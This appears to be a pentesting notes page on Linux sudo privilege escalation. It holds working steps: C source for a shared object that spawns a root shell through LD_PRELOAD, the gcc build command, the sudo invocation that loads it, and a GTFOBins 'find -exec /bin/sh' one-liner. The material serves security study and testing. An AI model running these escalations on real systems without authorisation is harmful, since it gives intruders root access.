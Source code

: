 # Sudo

Suppose for the below examples, the low-privileged user is allowed to  run the `find` command with _sudo_ privileges

```bash
$ sudo -l
Matching Defaults entries for [] on ...:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD
    ...

User [] may run the following commands on ...:
     ...
    (ALL) NOPASSWD: /usr/bin/find
    ...
```

## LD\_PRELOAD env variable

> LD\_PRELOAD is an environment variable in Linux that allows you to force the system to load specific shared libraries before any other libraries when running a program.

### Example

To exploit the LD\_PRELOAD environment variable, look for `env_keep+=LD_PRELOAD` from the results of the `sudo -l` command.

C code which simply spawns a root shell

_**shell.c**_

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Using `gcc` to compile the C code into a shared object file:

{% embed url="https://man7.org/linux/man-pages/man1/gcc.1.html" %}

```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

1. `-fPIC`

> If supported for the target machine, emit position-independent code, suitable for dynamic linking and avoiding any limit on the size of the global offset table.

2. `-shared`

> Produce a shared object which can then be linked with other objects to form an executable

3. `-nostartfiles`

> Do not use the standard system startup files when linking

Run the `find` command with `LD_PRELOAD` set as the previously created shared object file. This essentially executes the C code to spawn the root shell.

```bash
$ sudo LD_PRELOAD=.../shell.so find
```

## Binaries with sudo privileges&#x20;

Suppose the binary with sudo privilege is `/usr/bin/find`

```bash
$ sudo find . -exec /bin/sh \; -quit
```

Adapted from: [https://gtfobins.github.io/gtfobins/find/#sudo](https://gtfobins.github.io/gtfobins/find/#sudo)
